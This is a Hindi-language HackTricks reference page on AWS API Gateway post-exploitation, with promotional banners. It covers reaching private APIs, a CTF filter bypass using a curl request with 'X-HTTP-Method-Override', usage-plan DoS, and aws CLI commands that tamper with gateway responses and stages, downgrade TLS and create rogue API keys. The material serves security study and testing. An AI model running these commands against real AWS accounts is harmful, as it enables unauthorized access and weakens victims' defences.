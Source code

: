 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **PRs सबमिट करके हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
{% endhint %}

## API Gateway

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### अप्रकट APIs तक पहुँच

आप [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) पर `com.amazonaws.us-east-1.execute-api` सेवा के साथ एक एंडपॉइंट बना सकते हैं, उस नेटवर्क में एंडपॉइंट को एक्सपोज़ करें जहाँ आपको पहुँच है (संभावित रूप से एक EC2 मशीन के माध्यम से) और सभी कनेक्शनों की अनुमति देने वाला एक सुरक्षा समूह असाइन करें।\
फिर, EC2 मशीन से आप एंडपॉइंट तक पहुँच सकेंगे और इसलिए उस गेटवे API को कॉल कर सकेंगे जो पहले एक्सपोज़ नहीं था।

### अनुरोध बॉडी पासथ्रू को बायपास करें

यह तकनीक [**इस CTF राइटअप**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) में पाई गई थी।

जैसा कि [**AWS दस्तावेज़ीकरण**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) में `PassthroughBehavior` अनुभाग में संकेत दिया गया है, डिफ़ॉल्ट रूप से, मान **`WHEN_NO_MATCH`**, जब अनुरोध के **Content-Type** हेडर की जाँच करता है, तो अनुरोध को बिना किसी परिवर्तन के बैक एंड पर पास कर देगा।

इसलिए, CTF में API Gateway में एक एकीकरण टेम्पलेट था जो **फ्लैग को प्रतिक्रिया में एक्सफिल्ट्रेट होने से रोक रहा था** जब `Content-Type: application/json` के साथ अनुरोध भेजा गया था:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

हालांकि, **`Content-type: text/json`** के साथ अनुरोध भेजने से उस फ़िल्टर को रोका जा सकता था।&#x20;

अंत में, क्योंकि API Gateway केवल `Get` और `Options` की अनुमति दे रहा था, यह संभव था कि बिना किसी सीमा के एक मनमाना dynamoDB क्वेरी भेजी जा सके, POST अनुरोध के साथ क्वेरी को बॉडी में भेजकर और हेडर `X-HTTP-Method-Override: GET` का उपयोग करके:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

**Enumeration** अनुभाग में आप देख सकते हैं कि **keys का usage plan कैसे प्राप्त करें**। यदि आपके पास key है और यह **प्रति माह X usages** तक **सीमित** है, तो आप इसे **सिर्फ उपयोग करके DoS उत्पन्न कर सकते हैं**।

**API Key** को **HTTP header** में **`x-api-key`** नामक **शामिल** करना होता है।

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateGatewayResponse` और `apigateway:CreateDeployment` की permissions हैं, वह **मौजूदा Gateway Response को संशोधित कर सकता है ताकि उसमें कस्टम हेडर या response templates शामिल हों जो संवेदनशील जानकारी लीक करें या दुर्भावनापूर्ण स्क्रिप्ट्स निष्पादित करें**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: संवेदनशील जानकारी का लीक होना, दुर्भावनापूर्ण स्क्रिप्ट्स का निष्पादन, या API संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateStage` और `apigateway:CreateDeployment` अनुमतियाँ हैं, वह **मौजूदा API Gateway स्टेज को संशोधित कर सकता है ताकि ट्रैफ़िक को किसी अन्य स्टेज पर पुनर्निर्देशित किया जा सके या कैशिंग सेटिंग्स को बदलकर कैश किए गए डेटा तक अनधिकृत पहुंच प्राप्त की जा सके**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: कैश्ड डेटा तक अनधिकृत पहुंच, API ट्रैफिक को बाधित या इंटरसेप्ट करना।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:PutMethodResponse` और `apigateway:CreateDeployment` अनुमतियाँ हैं, **मौजूदा API Gateway REST API विधि की विधि प्रतिक्रिया को संशोधित कर सकता है ताकि कस्टम हेडर या प्रतिक्रिया टेम्पलेट शामिल हों जो संवेदनशील जानकारी को लीक करें या दुर्भावनापूर्ण स्क्रिप्ट निष्पादित करें**।
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: संवेदनशील जानकारी का लीक होना, दुर्भावनापूर्ण स्क्रिप्ट्स का निष्पादन, या API संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateRestApi` और `apigateway:CreateDeployment` अनुमतियाँ हैं, **API Gateway REST API सेटिंग्स को संशोधित कर सकता है ताकि लॉगिंग को अक्षम किया जा सके या न्यूनतम TLS संस्करण को बदला जा सके, जिससे API की सुरक्षा कमजोर हो सकती है**।
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: API की सुरक्षा को कमजोर करना, जिससे अनधिकृत पहुंच या संवेदनशील जानकारी का खुलासा हो सकता है।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

एक हमलावर जिसके पास `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, और `apigateway:CreateUsagePlanKey` की अनुमतियाँ हैं, **नए API कुंजियाँ बना सकता है, उन्हें उपयोग योजनाओं के साथ जोड़ सकता है, और फिर इन कुंजियों का उपयोग अनधिकृत API पहुंच के लिए कर सकता है**।
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**संभावित प्रभाव**: API संसाधनों तक अनधिकृत पहुंच, सुरक्षा नियंत्रणों को बायपास करना।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

<details>

<summary><strong>शून्य से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप **अपनी कंपनी को HackTricks में विज्ञापित करना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) पर फॉलो करें।**
* **अपने हैकिंग ट्रिक्स को PRs सबमिट करके साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोज़िटरी में।

</details>
